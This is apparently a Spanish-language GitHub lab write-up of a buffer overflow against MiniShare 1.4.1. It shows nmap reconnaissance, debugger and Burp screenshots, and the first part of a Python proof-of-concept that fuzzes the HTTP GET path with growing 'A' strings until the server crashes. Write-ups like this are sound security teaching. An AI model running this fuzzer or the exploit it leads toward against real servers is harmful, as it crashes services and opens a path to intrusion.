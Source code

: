 # BUFFEROVERFLOW-MINISHARE-1.4.1
***
Se procedera a realizar un desdoblamiento de buffer con el software MINISHARE 1.4.1 habrimos una ventana emergente al lado de nuestro tilix para poder trabajar, usamos el siguiente comando, colacando la IP de la maquina vulnerable.
***
``` 
rdesktop " IP 192.168.a.b"  -u user -p paswword
```
****
### Screenshot
![inicio](https://user-images.githubusercontent.com/104048850/180593311-1796279a-4a4f-4ee8-8fae-baa47898a6e4.png)
Procedemos a realizar un escaneo de vulnerabilidades 
``` 
nmap 192.168.72.135 -sV

```
***
Podemos observar los puertos de la maquina vulnerable sin ejecutar el programa 
***
### Screenshot
![nmap](https://user-images.githubusercontent.com/104048850/180593535-955c4085-6369-4afb-b5e7-dd56e463c24f.png)
***
Ahora realizaremos el escaneo ejecutando el programa minishare usando la herramiento immunity debugger
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593763-736524cd-0f76-4ce6-9894-0780023678ad.png)

Para ver que comando vamos a usar, utilizaremos burpsuite y un proxy 
### Screenshot
![image](https://user-images.githubusercontent.com/104048850/180593888-219158db-ad4b-454e-a6e5-2aa429d6c417.png)
***
Ahora  ejecutamos el siguinte script  para ver la capacidad del buffer 

#!/usr/bin/python3.8
This is a Proof of concept about BufferOverflow vulnerability in MiniShare 1.4.1

Part 1 of proof of concept by Vry4n
 This script is intended to discover the size of the buffer
 
import socket

FUZZ = ""

 While true increase the variable FUZZ by adding 100 "A" until the program crashes
 
while True:
    FUZZ += "A" * 100
    print("Fuzzing with {} bytes".format(len(FUZZ)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(("192.168.72.135", 80))
    # from a web proxy capturing the HTTP GET Request, we got this line "GET / HTTP/1.1" This is the vulnerable section
    s.send(b"GET " + FUZZ.encode() + b"HTTP/1.1\r\n\r\n")
    s.recv(1024)
    s.close()
